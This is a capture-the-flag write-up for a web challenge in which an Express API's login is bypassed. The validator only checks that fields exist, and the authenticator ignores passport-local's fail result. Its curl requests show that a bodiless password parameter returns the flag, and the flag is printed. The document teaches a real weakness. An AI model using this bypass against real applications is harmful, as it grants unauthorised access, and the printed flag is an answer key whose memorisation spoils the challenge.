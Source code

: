 # Web-Challenge-6: Logged In

### Description

> It looks like  COViD's mobile application is connecting to this API! Fortunately, our  agents stole part of the source code. Can you find a way to log in? 
>
> [API Server](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41061) 
>
> *Note: Wondering what the second flag is about? Maybe check for a MOBILE Network?*

### Solution

There are 2 approaches to solving this problem, both of which utilises the same idea. Here, the solution from the web perspective is given.

First, we try to access the API Server and we get a `404 Not Found`. Since we are also given the server source code, let's dive right in. Most things are clearly irrelevant (they are just default boilerplate code generated by `express-generator`), but we notice a few interesting files:

* `seeders/20201023021100-user.js`

```js
'use strict';
const bcrypt = require('bcryptjs');

var generatePassword = require('../helpers/generatePassword');

module.exports = {
  up: async (queryInterface, Sequelize) => {
    await queryInterface.bulkInsert('Users', [{
      username: 'bob_minion',
      password: bcrypt.hashSync(generatePassword(32), 10),
      createdAt: new Date(),
      updatedAt: new Date()
    }, {
      username: 'kevin_minion',
      password: bcrypt.hashSync(generatePassword(32), 10),
      createdAt: new Date(),
      updatedAt: new Date()
    }, {
      username: 'stuart_minion',
      password: bcrypt.hashSync(generatePassword(32), 10),
      createdAt: new Date(),
      updatedAt: new Date()
    }, {
      username: 'gru_felonius',
      password: bcrypt.hashSync(generatePassword(32), 10),
      createdAt: new Date(),
      updatedAt: new Date()
    }], {});
  },

  down: async (queryInterface, Sequelize) => {
  }
};
```

* `routes/api.js`
```js
var express = require('express');
var router = express.Router();
var { loginValidator, sendValidationErrors } = require('../middlewares/validators');
var { localAuthenticator } = require('../middlewares/authenticators');
var { User } = require('../models')
var encryptFlag = require('../helpers/encryptFlag');

router.get('/', function (req, res, next) {
  res.render('index', { title: 'Express' });
});

router.post('/login', loginValidator, sendValidationErrors, localAuthenticator, function (req, res) {
  res.json({ "flagOne": process.env.FLAG_ONE, "encryptedFlagTwo": encryptFlag(process.env.FLAG_TWO) })
});

router.get('/user/:userId', async function (req, res) {
  const user = await User.findByPk(req.params.userId, { "attributes": ["username"] });
  res.json(user)
});
```

* `middleware/validators.js`

```js
var { check, validationResult } = require('express-validator');

const loginValidator = [
  check('username').exists(),
  check('password').exists()
]

function sendValidationErrors(req, res, next) {
  const errors = validationResult(req);
  if (!errors.isEmpty()) {
    return res.status(400).json({ error: `Invalid parameters: ${errors.array().map(error => error.param).join(', ')}` });
  }
  next()
}

module.exports = {
  loginValidator,
  sendValidationErrors,
}
```

* `middleware/validators.js`
```js
var passport = require('passport')

function localAuthenticator(req, res, next) {
    passport.authenticate('local', { session: false }, function (err, user, info) {
        if (err) {
            return res.status(401).json({
                "error": err.message
            });
        }
        next();
    })(req, res, next)
}

module.exports = {
    localAuthenticator,
}
```

We can gather that the endpoint is at `/api/login` (note that in `app.js` the api router is mounted on `/api`) and the expected credentials are `username` and `password`. Clearly, brute forcing the password is unfeasible (we can verify that by checking the password generation code), so we need to find a better way. Of course we can analyse the code carefully to find a vulnerability, but there's no obvious bug as of now. Instead, why don't we try to perform some quick "black-box testing" with some edge cases? Regular inputs (whatever you can type) is unlikely to cause anything weird to happen, but common edge cases include missing/null values for user inputs. Let's try a few here:

* What if we don't supply a `username` and `password`?

  ```sh
  $ curl -X POST http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41061/api/login
  {"error":"Invalid parameters: username, password"}
  ```

* What if we don't supply a `password`?

  ```sh
  $ curl -X POST -d "username=gru_felonius" http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41061/api/login
  {"error":"Invalid parameters: password"}
  ```

It seems that if a parameter is not present (`undefined`), an error will be thrown. But what if we supply a parameter with a `null` value? i.e,

* What if we don't supply a value to `password`?

  ```sh
  $ curl -X POST -d "username=gru_felonius&password" http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41061/api/login
  {"flagOne":"govtech-csg{m!sS1nG_cR3DeN+!@1s}","encryptedFlagTwo":"717f4cda287d40c47e7b50cb772b4def5a415387257510d1"}
  ```

Nice... we got the flag! But why does this work?

1. The `.check()` function (see [here](https://express-validator.github.io/docs/validation-chain-api.html#existsoptions)) only checks if a parameter exists; any value other than `undefined` is acceptable.

2. `passport-local` doesn't return an error or interrupts the program flow if it fails. You can see this in its source code [here](https://github.com/jaredhanson/passport-local/blob/f82655aa220ad7d0fcd8b114a0303d3cf94b8d06/lib/strategy.js#L71). A small section is copied here:

```js
var username = lookup(req.body, this._usernameField) || lookup(req.query, this._usernameField);
var password = lookup(req.body, this._passwordField) || lookup(req.query, this._passwordField);

if (!username || !password) {
    return this.fail({ message: options.badRequestMessage || 'Missing credentials' }, 400);
}
```

​	Since the middleware authenticator here doesn't check whether the authentication has failed and only if an error is thrown (which isn't!), missing credentials will be able to get past all the middleware applied in this case. This means that we can get even lazier: the payload `-d "username&password"` will work too!



*Addendum: the (undocumented) missing credentials behaviour can be an especially frustrating issue if one is debugging a `passport-js` application for the first time. I certainly went almost crazy trying to figure out why my local strategy didn't seem to be called when I submitted a blank form in laziness when testing an app.*

[Script](./solve.sh)

### Mobile Solution

**TODO**



Flag: `govtech-csg{m!sS1nG_cR3DeN+!@1s}`
